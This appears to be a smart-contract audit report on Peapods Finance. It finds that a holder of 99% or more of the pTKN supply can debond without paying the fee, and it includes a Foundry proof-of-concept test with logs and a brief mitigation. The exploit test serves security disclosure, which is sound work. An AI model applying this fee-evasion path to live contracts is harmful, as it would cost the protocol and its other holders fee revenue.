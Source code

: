 Short Currant Chipmunk

High

# User can evade _fees.debond

### Summary

A user having >=99% holding of pTKNs can evade debond Fee.

### Root Cause

In WeightedIndex::debond [L-176](https://github.com/sherlock-audit/2025-01-peapods-finance/blob/d28eb19f4b39d3db7997477460f9f9c76839cb0c/contracts/contracts/WeightedIndex.sol#L176) the check for whether the user is the _Last One Out_ ,the function [_isLastOut](https://github.com/sherlock-audit/2025-01-peapods-finance/blob/d28eb19f4b39d3db7997477460f9f9c76839cb0c/contracts/contracts/DecentralizedIndex.sol#L281-L283) contains a bug. It allows anybody having >=99% of _totalSupply holding  debond without any fee.

### Internal Pre-conditions

_No response_

### External Pre-conditions

_No response_

### Attack Path

Alice is an arbitrageur gleaning profits by big amount of wrapping and unwrapping TKNs. While market volatility unwrapping(debonding(pTKN==>TKN)) becomes profitable and everyone tends to unwrap. Since Alice has got a very large holding, she waits a bit and notices her holding is ~99% of the _totalSupply , and debonds her holding without giving any fees even after lots of person have still got holdings. **(This Protocol allows only the last person to debond without fee.)**

### Impact

The protocol suffers a  large amount of fees(~1% of debond amount) (since the user debonds very large amount).

### PoC

```solidity
    function test_debondMultipleUsers() public {
        console.log("Initial Peas Balance of alice: ", peas.balanceOf(alice));
        vm.startPrank(alice);
        pod.bond(address(peas), bondAmt, 0);
        vm.stopPrank();
        //initial setup for 99 users
        for (uint256 i = 0; i < 99; i++) {
            address user = address(uint160(4 + i));
            deal(address(peas), user, bondAmt / 500);
            vm.startPrank(user);
            peas.approve(address(pod), type(uint256).max);
            vm.stopPrank();
            vm.startPrank(user);
            pod.bond(address(peas), bondAmt / 10000, 0);
            vm.stopPrank();
        }

        uint256 aliceInitialBalance = pod.balanceOf(alice);

        console.log("Before debond Balance of alice : ", aliceInitialBalance);
        console.log("Total Supply: ", pod.totalSupply());

        vm.startPrank(alice);
        address[] memory _n1;
        uint8[] memory _n2;
        pod.debond(aliceInitialBalance, _n1, _n2);
        vm.stopPrank();

        console.log("Final Balance of alice : ", peas.balanceOf(alice));
     }
```
```solidity
Logs:
  Initial Peas Balance of alice:  100000000000000000000  
  Before debond Balance of alice :  1000000000000000000  
  Total Supply:  1009899999999999901
  Final Balance of alice :  99999999999999999999(1 loss due to rounding error)
```

### Mitigation

Users can be listed through a mapping, every time an user debonds should be out from the list. And only the last person will be given the debond fee Free benefit.
